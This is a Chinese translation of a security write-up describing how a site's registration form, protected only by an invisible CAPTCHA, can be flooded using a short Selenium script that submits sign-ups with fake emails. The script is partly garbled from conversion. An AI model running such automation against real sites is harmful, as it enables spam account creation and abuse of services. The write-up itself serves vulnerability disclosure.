

# 绕过隐形验证码的限速攻击

> 原文：<https://infosecwriteups.com/rate-limiting-attack-bypassing-invisible-captcha-a6e800903c5f?source=collection_archive---------1----------------------->

## 该应用程序实现了不可见的验证码，作为一种用户友好的方式，以避免用户注册的垃圾邮件。但问题是，这是应用程序防御垃圾邮件的唯一方法。

首先，你可以看到无形的验证码看起来像在一个网站上使用。



我使用 python 脚本创建了概念验证攻击，并演示了我将在下面解释的攻击:

首先，我记下了新用户注册时需要的所有必要参数。此外，记下每次更新时需要更新的参数，如电子邮件地址。

然后脚本看起来是这样的:

```
from selenium import webdriver
from time import sleeptest_emails = ["[demouser@anyinvaliddomain.com](mailto:demouser@anyinvaliddomain.com)","[demouser1@anyinvaliddomain.com](mailto:demouser1@anyinvaliddomain.com)"]
url = "[https://example.com/register](https://example.com/register)"
driver = webdriver.Chrome()

for email in test_emails:

    driver.get(url)
    sleep(3)#find first name element by name
    first_name = driver.find_element_by_name("FirstName")
    # submit into element name
    first_name.send_keys("john")Email = driver.find_element_by_name("Email")
    # submit our fake email IDs
    Email.send_keys(email)

    # submit button
    submit_button = driver.find_element_by_id("button_submit")
    submit_button.click()
```

*   所以首先从 selenium 包中导入 webdriver。
*   然后创建需要随着每个请求而改变的假电子邮件列表，并声明注册链接。
*   在 chrome 中打开 URL 后，获取并填充所需选项中的数据。
*   最后单击 submit 按钮，提交表单并在应用程序中为我们创建一个用户。

这个脚本经过必要的修改后对我来说很好。

就是这样。感谢阅读！

如需反馈/建议，请发送电子邮件至:[psdoom@protonmail.com](mailto:psdoom@protonmail.com)